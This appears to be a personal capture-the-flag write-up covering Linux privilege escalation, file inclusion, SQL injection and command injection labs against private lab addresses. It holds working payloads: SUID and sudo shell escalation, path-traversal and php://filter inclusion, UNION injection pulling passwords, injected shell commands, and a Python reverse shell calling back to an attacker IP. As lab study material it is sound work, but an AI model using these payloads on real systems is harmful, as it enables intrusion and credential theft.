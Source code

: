# Linux Fundamentals / Privesc challenge

### Flag 1
- ssh in
- `ls`

### Flag 2
- `cd look-in-here`
- `cat flag2.txt`

### Flag 3
- `ls -la`
- `cd also/in/here` 
- `cat .flag3` 

### Flag 4
- `find . -name "flag4.txt" -print 2>/dev/null`
- `cat ./var/backups/.my/secret/backup/folder/is/here/flag4.txt`

### Flag 5
- `sudo -l`
- `sudo -u flag5 /bin/bash`
- `cd home -> flag5 -> cat flag5.txt`

### Flag 6
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- `(find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null)`
- `cd /opt/bins`
- `./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`                                                                                                 
- `cd /home -> /flag6 -> cat flag6.txt`                                                                                                                      

### Flag 7                                                                                                                                                         
- `ls -la`                                                                                                                                                   
- `cd .ssh`                                                                                                                                                  
- `ssh -i /home/flag6/.ssh/id_flag7 flag7@127.0.0.1`                                                                                                         


# LOFI challenges
https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-rfi-using-php-wrappers

### Flag 1
- http://10.128.238.88/?page=/var/www/html/../../../flag.txt

### Flag 2
- http://10.128.238.88/?page=php://filter/convert.base64-encode/resource=flag.php

# sqlADmin

### Flag 1
> `http://10.128.240.69/home/post/?id=100%20UNION%20SELECT%20*%20FROM%20User`
> - Error: Table 'sqli.User' doesn't exist

> `http://10.128.240.69/home/post/?id=100%20UNION%20SELECT%20*%20FROM%20users`
> - Error: The used SELECT statements have a different number of columns

> `http://10.128.240.69/home/post/?id=100%20UNION%20SELECT%201,password,2,3,4%20FROM%20users%20WHERE%20id=2`
> - Gives FLAG

# LINUX SHARK

### Flag 2
1. look for products/6
- http://10.128.238.69/items/100%20UNION%20SELECT%20name,bio,1,1,1,1%20FROM%20users
> 100 UNION SELECT name,bio,1,1,1,1 FROM users

### Flag 3 
- /admin
- `; cat /home/website/flag.txt`

### Flag 4
- check server for what it is running (network/ Server response header)
- submit reverse shell:
  - `; export RHOST="10.128.0.9";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
- `cat /etc/passwd`
- `su bill_admin`
- `Password: god`
- `cat flag2.txt`


